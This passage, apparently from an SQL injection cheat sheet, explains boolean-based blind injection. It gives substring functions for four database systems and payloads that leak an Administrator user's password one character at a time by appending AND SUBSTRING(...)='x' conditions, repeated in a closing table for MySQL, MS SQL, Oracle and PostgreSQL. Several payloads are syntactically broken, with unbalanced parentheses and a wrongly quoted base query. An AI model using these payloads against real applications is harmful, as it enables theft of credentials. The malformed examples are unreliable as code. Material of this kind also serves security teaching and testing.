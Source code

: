 | Database | Payload Sample |
| --- | --- |
| Oracle | SUBSTR('foobar', 4,2)|
| Microsoft | SUBSTRING('foobar', 4, 2) |
| PostgreSQL | SUBSTRING('foobar', 4, 2) |
| MySQL | SUBSTRING('foobar', 4, 2) |

**Example**
```mysql
'SELECT * FROM market where product = red bull' AND (SUBSTRING( SELECT password FROM Users where Username = 'Administrator'), 1,1) = 's'
```

The payload consists of two parts:

1. The original query `'SELECT * FROM market where product = red bull'` which retrieves data from the `market` table based on the product name.
2. The malicious query `AND (SUBSTRING( SELECT password FROM Users where Username = 'Administrator'), 1,1) = 's'` which retrieves the first character of the password for the `Administrator` user from the `Users` table and compares it with the letter 's'.

The `AND` operator connects the original query and the malicious query, effectively executing both as a single query. If the first character of the password is 's', then the entire query will return a positive result and the application will display data. If the first character of the password is not 's', the query will return a negative result, and the application will not display any data.

This payload uses the `SUBSTRING` function to extract the first character of the password, and the `=` operator to compare it with the letter 's'. The `( SELECT password FROM Users where Username = 'Administrator')` part of the query retrieves the password for the `Administrator` user from the `Users` table.

To check the second character of the password, the payload would be similar, but with a slight modification to the comparison part of the query. For example:

```sql
'SELECT * FROM market where product = red bull' AND (SUBSTRING( SELECT password FROM Users where Username = 'Administrator'), 2,1) = 'e'
```

In this payload, the comparison part of the query has been changed to `(SUBSTRING( SELECT password FROM Users where Username = 'Administrator'), 2,1) = 'e'`, which extracts the second character of the password and compares it with the letter 'e'. If the second character of the password is 'e', the query will return a positive result and the application will display data. If the second character is not 'e', the query will return a negative result and the application will not display any data.

Here is an example of a similar query in different database management systems:

| DBMS |  |
| --- | --- |
| MySQL | 'SELECT * FROM market where product = 'red bull' AND (SUBSTRING((SELECT password FROM Users where username = 'Administrator'), 2, 1)) = 'e'
| MS SQL | 'SELECT * FROM market where product = 'red bull' AND (SUBSTRING((SELECT password FROM Users where username = 'Administrator'), 2, 1)) = 'e' |
| Oracle | 'SELECT * FROM market where product = 'red bull' AND (SUBSTR( (SELECT password FROM Users where username = 'Administrator'), 2, 1)) = 'e' |
| PostgreSQL | 'SELECT * FROM market where product = 'red bull' AND (SUBSTRING((SELECT password FROM Users where username = 'Administrator'), 2, 1)) = 'e' |
